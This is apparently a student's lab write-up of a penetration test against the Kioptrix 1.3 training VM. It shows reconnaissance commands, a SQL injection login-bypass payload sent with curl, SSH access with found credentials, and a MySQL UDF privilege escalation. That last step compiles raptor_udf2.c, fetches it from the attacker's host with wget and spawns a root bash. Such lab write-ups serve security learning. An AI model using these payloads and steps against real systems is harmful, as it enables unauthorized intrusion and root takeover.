# Kioptrix 1.3 Penetration Testing Lab

This project documents a **penetration testing exercise on the Kioptrix 1.3 vulnerable machine**.  
The objective of this lab is to practice **network reconnaissance, vulnerability discovery, exploitation, and privilege escalation** in a controlled environment.

Kioptrix is a well-known vulnerable VM used by cybersecurity learners to practice real-world penetration testing techniques.

---

# Table of Contents

- Overview
- Lab Environment
- Tools Used
- Attack Methodology
- Reconnaissance
- Enumeration
- Exploitation
- Privilege Escalation
- Attack Flow Diagram
- Screenshots
- Conclusion
- Disclaimer

---

# Overview

Penetration testing is a security assessment technique used to identify vulnerabilities in a system before attackers exploit them.

In this lab, the attacker machine uses **Kali Linux**, while the target machine is **Kioptrix 1.3** running inside a virtualized environment.

The attack process includes:

- Network discovery
- Service enumeration
- Web vulnerability discovery
- SQL Injection exploitation
- Credential reuse
- SSH access
- Privilege escalation via MySQL vulnerability

---

# Lab Environment

| Machine | OS | Role |
|------|------|------|
| Attacker | Kali Linux | Penetration Tester |
| Target | Kioptrix 1.3 | Vulnerable Machine |
| Virtualization | VMware | Lab Environment |

---

# Tools Used

The following tools were used during the penetration testing process:

- Netdiscover
- Nmap
- Curl
- Dirb / Directory Bruteforce
- MySQL
- SSH
- Bash

---

# Attack Methodology

The penetration testing process follows the general penetration testing phases:

1. Reconnaissance
2. Scanning
3. Enumeration
4. Exploitation
5. Privilege Escalation

---

# Reconnaissance

The first step is identifying the target IP address within the network.

## Network Discovery

```
netdiscover
```

This command scans the local network to identify active hosts and determine the IP address of the Kioptrix machine.




---

# Scanning

Once the target IP address is discovered, perform a port scan using Nmap.

```
nmap -sV -A -T4 -sCV <target_ip>
```

This scan identifies:

- Open ports
- Running services
- Service versions



---

# Enumeration

After identifying open services, the next step is enumerating the web server.

Directory brute forcing is used to discover hidden pages.

Example:

```
dirb http://<target_ip>
```

This reveals several directories including a page related to the user **john**.

### Screenshot



---

# Exploitation

The web application contains a **login page vulnerable to SQL Injection**.
The login form sends credentials using parameters:

- `myusername`
- `mypassword`

try Using **SQL Injection**, the authentication process can be bypassed.
Example request using curl:

```
curl -X POST http://<target_ip>/checklogin.php \
-d "myusername=admin' OR '1'='1&mypassword=test"
```

As you can see the webpage redirects the user to:

```
login_success.php?username=john
```

But we stil cannot get ye authentication for previlege escalation.
try again but transfer cookies to cookies.txt 



Note: in curl command line you can see some flags that been used
-d: to transfer data
-X: Method POST, PUT, DELETE
-v: verbose, for the information of the http communication
-c: tocopy cookies

---

# Credential Discovery

From the exploitation process, the attacker discovers credentials for the user:

```
username: john
password: <discovered password>
```

These credentials can then be tested against the SSH service.

---

# SSH Access

Using the discovered credentials, the attacker attempts to login via SSH.

```
ssh john@<target_ip>
```

If successful, the attacker gains access to the system as a low-privileged user.



---

# Privilege Escalation
Once inside the system, the attacker checks for sudo privileges.

```
sudo -l
```

Result:

```
Sorry, user john may not run sudo
```
In this case attacker can find every process that running with root.
command:
ps aux | grep root


In the picture can be concluded that mysql running with root previlege. Investigate mysql version


the system uses **MySQL 5.0.51a**, which contains a known vulnerability related to **User Defined Functions (UDF)**.

This vulnerability allows attackers to escalate privileges and execute commands as **root**.

Reference:
- https://lists.openwall.net/bugtraq/2009/03/16/7
- https://www.exploit-db.com/exploits/1518
- https://medium.com/@dipanshuchhanikar/privilege-escalation-via-mysql-udf-exploit-a-step-by-step-guide-9b886c8b5560

with using the information from reference attacker can use **raptor_udf2.c** to exploit mysql. 


attacker can download the code in kali linux, compile it to a executeable code (.so, .o) by using command:
1. gcc -m32 -g -c raptor_udf2.c FPIC
2. gcc -m32 -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

after compiling raptor_udf2, attacker can transfer file through python http server: 
python -m http.server 8000 (kali)
wget http://kali_ip:8000/raptor_udf2.so

when the code already in kioptrix, Inject the code to mysql 


as can see in the picture attacker using table foo with values loadfile('/tmp/raptor_udf2.so')
please take a note: that udf code are located in tmp directory in kioptrix

after inserting to foo table, transfer it to DUMPFILE with this query:
SELECT line FROM foo INTO DUMPFILE 'lib/raptor_udf2.so';

and Execute system.

raptor_udf2.so can be used 
1. to see the contain of the restricted file such as "id" command and transfer it to "/tmp/id.txt"
2. change the Unix rules in accessing file
3. transfer bash into "/tmp/rootbash" to gain the root bash previlege

---

# Attack Flow Diagram



# Conclusion

This penetration testing lab demonstrates how attackers can exploit multiple vulnerabilities within a system.

Through this exercise we practiced:

- Network reconnaissance
- Service enumeration
- Web application exploitation
- Credential reuse
- Privilege escalation

These skills are fundamental for cybersecurity professionals performing penetration testing.

---

# Disclaimer

This penetration testing activity was performed **in a controlled lab environment for educational purposes only**.

Do not attempt these techniques on systems without proper authorization.

---

**Author**
Keanrich Cordana
